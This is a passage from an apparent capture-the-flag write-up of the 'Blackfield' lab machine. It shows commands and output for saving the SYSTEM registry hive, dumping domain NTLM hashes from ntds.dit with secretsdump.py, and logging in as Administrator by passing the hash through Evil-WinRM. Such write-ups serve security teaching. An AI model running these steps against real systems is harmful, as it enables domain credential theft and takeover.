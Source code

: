 Then i can dump the system hive with a simple one line command, and download it to my Kali box

~~~
*Evil-WinRM* PS C:\temp> reg save HKLM\SYSTEM C:\temp\system.hive
The operation completed successfully.

*Evil-WinRM* PS C:\temp> download system.hive
~~~
{: .language-bash}

Back at my Kali box, i can now use another tool from Impacket, called *secretsdump.py* and retrieve the hashes

~~~
┌──(kali@kali)-[~/boxes/blackfield]
└─$ python3 secretsdump.py -ntds ntds.dit -system system.hive LOCAL                                                                                                                                                                        
Impacket v0.9.21 - Copyright 2020 SecureAuth Corporation                                                                                                                                                                                   
                                                                                                                                                                                                                                           
[*] Target system bootKey: 0x73d83e56de8961ca9f243e1a49638393                                                                                                                                                                              
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)                                                                                                                                                                              
[*] Searching for pekList, be patient                                                                                                                                                                                                      
[*] PEK # 0 found and decrypted: 35640a3fd5111b93cc50e3b4e255ff8c                                                                                                                                                                          
[*] Reading and decrypting hashes from ntds.dit                                                                                                                                                                                            
Administrator:500:aad3b435b51404eeaad3b435b51404ee:184fb5e5178480be64824d4cd53b99ee:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DC01$:1000:aad3b435b51404eeaad3b435b51404ee:f4a13e41e3ae7a47a76323a4c6ef8e33:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:d3c02561bba6ee4ad6cfd024ec8fda5d:::
audit2020:1103:aad3b435b51404eeaad3b435b51404ee:600a406c2c1f2062eb9bb227bad654aa:::
support:1104:aad3b435b51404eeaad3b435b51404ee:cead107bf11ebc28b3e6e90cde6de212:::                                                                                  
~~~
{: .language-bash}

Once again i could use the hash to authenticate as the Administrator account and catch the root flag!

~~~
┌──(kali@kali)-[~/boxes/blackfield]
└─$ evil-winrm -i 10.10.10.192 -u Administrator -H 184fb5e5178480be64824d4cd53b99ee

Evil-WinRM shell v2.3

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\Administrator\Documents> type C:\Users\Administrator\Desktop\root.txt
5de6035c96bfa1b51b18abc29684289d
*Evil-WinRM* PS C:\Users\Administrator\Documents> 
~~~
{: .language-bash}
